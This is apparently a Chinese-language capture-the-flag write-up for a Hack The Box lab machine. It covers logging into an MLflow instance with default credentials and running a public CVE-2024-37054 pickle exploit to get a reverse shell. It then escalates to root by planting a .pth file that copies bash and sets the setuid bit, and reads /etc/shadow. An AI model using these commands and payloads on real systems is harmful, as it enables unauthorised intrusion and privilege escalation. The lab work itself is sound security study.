

# recon
```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLg1Y2xxe0euIHDjjKTIrxL+XZXgsBabs0FMAMKBL8arUuELui3vhlkgcDVGcZ4vFWnsiu4osw5INjfcQGkp2BY=
|   256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPc/kqsR+WxwGPMNTukcYPjzZRGjQL6N+0HsGIS1NV4U
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80 - Web
## smarthire.htb
访问 IP 重定向到 `smarthire.htb`, 添加 hosts.


技术栈没有给出多少信息
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 01 Aug 2026 09:50:54 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Cookie
Content-Length: 11255
```

有趣的是, 用户评价指出该平台集成了 Mlflow, 后者是一个是一个开源的 AI 工程平台, 适用于智能体、LLM 和模型


功能需要登陆, 注册一个账户并登陆, 一个 AI 模型训练的工作站:


## models.smarthire.htb
使用 ffuf 枚举, 这个子域名不在 `subdomains-top1million-5000.txt` 中. 猜测其为上文中提到的 MLFlow. 需要登陆, 尝试 mlflow 默认凭据 `admin:password`, 成功:

技术栈没有给出什么信息
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 01 Aug 2026 09:51:55 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Disposition: inline; filename=index.html
Last-Modified: Wed, 17 Sep 2025 13:39:07 GMT
Cache-Control: no-cache
ETag: W/"1758116347.0-645-3612482313"
Content-Length: 645
```

### CVE-2024-37054
banner 指出版本为 `2.14.1`, 公开利用指向 [CVE-2024-37054](https://github.com/ben-slates/CVE-2024-37054):
>[!quote] MLflow Tracking Server deserializes model artifacts via Python's `pickle` module when loading models for inference. An authenticated attacker can overwrite the `python_model.pkl` artifact in MLflow's artifact repository with a malicious pickle payload. When the model is subsequently loaded (e.g., during a prediction request), the payload is deserialized, executing arbitrary code on the server.

Poc需要 app 和 mlflow server, 根据用户评价推测二者分别为 `smarthire.htb` 和 `models.smarthire.htb`
```sh
---
python3 ./poc.py
usage: poc.py [-h] [--mlflow-creds USER:PASS] [--app-username APP_USERNAME] [--app-password APP_PASSWORD] [--app-login-url APP_LOGIN_URL] [--upload-url UPLOAD_URL] [--predict-url PREDICT_URL]
              [--experiment-id EXPERIMENT_ID] [--delay SECONDS] [--cmd COMMAND] [--verbose] [--quiet] [--no-color]
              target mlflow lhost lport
poc.py: error: the following arguments are required: target, mlflow, lhost, lport
---
python3 poc.py   http://smarthire.htb http://models.smarthire.htb 10.10.16.174 4444 --app-username stackcat --app-password stackcat
```

得到 shell 连接
# svcweb2root
对于机器上用户 尽管syslog 有 home, 但没有 shell, 暂时不考虑:
```bash
---
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ cat /etc/passwd|grep home
syslog:x:106:113::/home/syslog:/usr/sbin/nologin
svcweb:x:1000:1000:smarthire_user:/home/svcweb:/bin/bash
```

网络情况, 主机上无其余有趣端口, docker 套接字权限不足:
```bash
---
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ cat /etc/nginx/sites-enabled/smarthire
# smarthire main app
server {
    listen 80;
    server_name smarthire.htb;

    location / {
        proxy_pass http://127.0.0.1:8000;
...
server {
    listen 80;
    server_name models.smarthire.htb;

    location / {
        proxy_pass http://127.0.0.1:5000;
...

---
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ ss -lntp
LISTEN  0       4096          127.0.0.1:36045          0.0.0.0:*
LISTEN  0       4096      127.0.0.53%lo:53             0.0.0.0:*
LISTEN  0       128             0.0.0.0:22             0.0.0.0:*
LISTEN  0       2048          127.0.0.1:8000           0.0.0.0:*      users:(("gunicorn",pid=1739,fd=5),("gunicorn",pid=1120,fd=5),("gunicorn",pid=1110,fd=5),("gunicorn",pid=1107,fd=5),("gunicorn",pid=1028,fd=5))
LISTEN  0       511             0.0.0.0:80             0.0.0.0:*
LISTEN  0       4096          127.0.0.1:5000           0.0.0.0:*
LISTEN  0       128                [::]:22                [::]:*
---
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ curl  127.0.0.1:36045
404: Page Not Found
```

SUDO 有可无密码运行文件:
```sh
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo -l
Matching Defaults entries for svcweb on smarthire:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

## mlflowctl.py .pth injection
```Python
from pathlib import Path
import sys
import site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

# make plugins importable
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))
...

def main():
    import mlflow_actions, backup_models
...

if __name__ == "__main__": main()
```

其会从 `/opt/tools/mlflow_ctl/plugins` 目录中的每个目录下加载模块, 即将其添加到 `sys.path` 末尾

>[!fail] 模块加载是从 `sys.path` 开始进行索引, 模块覆盖在该条件下无法实现

但 `site.addsitedir()` 同时会加载该目录下的 `.pth` 文件

>[!quote] An executable line in a `.pth` file is run at every Python startup, regardless of whether a particular module is actually going to be used.

>[!quote] Starting with Python 3.5, lines in .pth files starting with “import” followed by a space or tab are executed. - https://dfir.ch/posts/publish_python_pth_extension/

即可以在 `.pth` 中的 `import` 开头的行中放置载荷, 其会被执行:
```sh
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ cat >> superevil.pth << 'eof'
>import os;os.system("cp /bin/bash /tmp/stackcat");os.system("chmod +s /tmp/stackcat")
>eof
```

```sh
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
(remote) svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ /tmp/stackcat -p
(remote) root@smarthire:/opt/tools/mlflow_ctl/plugins/dev#
```

# root3d
```sh
(remote) root@smarthire:/opt/tools/mlflow_ctl/plugins/dev# cat /etc/shadow
root:$y$j9T$aK2bbvaNoSx6f5u9MgO04.$hFnfmmpEYPf0TrFuI52M5e2F83LYJqobGDjrXNSg9J5:20348:0:99999:7::
```
